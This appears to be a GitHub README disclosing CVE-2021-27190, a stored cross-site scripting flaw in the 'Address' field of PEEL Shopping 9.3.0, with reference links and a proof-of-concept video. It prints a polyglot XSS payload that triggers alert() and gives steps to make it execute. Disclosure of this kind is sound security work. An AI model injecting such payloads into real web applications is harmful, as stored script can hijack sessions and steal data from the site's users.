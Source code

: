 # CVE-2021-27190 - PEEL Shopping, eCommerce shopping cart - Stored Cross-Site Scripting Vulnerability in 'Address'

[![Watch the video](https://i.imgur.com/UsFUHok.png)](https://drive.google.com/file/d/1t1hksDsYqYsqryRq61tNIQQMTCFidtc1/view)


## Date

2021-02-11 <br />

## Exploit Author
Anmol K Sachan <br />

## Vendor Homepage
https://www.peel.fr/ <br />

## Software Link
https://www.peel.fr/nos-offres-1/peel-shopping-31.html <br />
https://sourceforge.net/projects/peel-shopping/ <br />

## Vulnerable Software Link
https://drive.google.com/file/d/1dIwRdaqtEyqUUgxbRqrHiS5WQ10nEG8z/view?usp=sharing <br />

## Software: : 
PEEL SHOPPING 9.3.0 <br />

## Vulnerability Type
Stored Cross-site Scripting <br />

## Vulnerability
Stored XSS <br />

## Tested on Windows 10 XAMPP 
<br />

## CVE Assigned 
CVE-2021-27190 <br />
This application is vulnerable to Stored XSS vulnerability. <br />

## Vulnerable script
http://localhost/peel-shopping_9_3_0/utilisateurs/change_params.php <br />

https://github.com/anmolksachan/CVE-2021-27190-PEEL-Shopping-cart-9.3.0-Stored-XSS/edit/main/README.MD## Vulnerable parameters
'Address' <br />

## Payload used <br />
```jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e``` 
<br /> 
## POC
https://drive.google.com/file/d/1t1hksDsYqYsqryRq61tNIQQMTCFidtc1/view <br />
In the same page where we injected payload click on the text box to edit the address. <br />
You will see your Javascript code (XSS) executed. <br />

## Referneces
1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-27190<br />
2. https://packetstormsecurity.com/files/161367/PEEL-Shopping-9.3.0-Cross-Site-Scripting.html<br />
3. https://www.exploit-db.com/exploits/49553<br />
4. https://www.secuneus.com/cve-2021-27190-peel-shopping-ecommerce-shopping-cart-stored-cross-site-scripting-vulnerability-in-address/<br />
5. https://cxsecurity.com/issue/WLB-2021020054<br />
6. https://nvd.nist.gov/vuln/detail/CVE-2021-27190


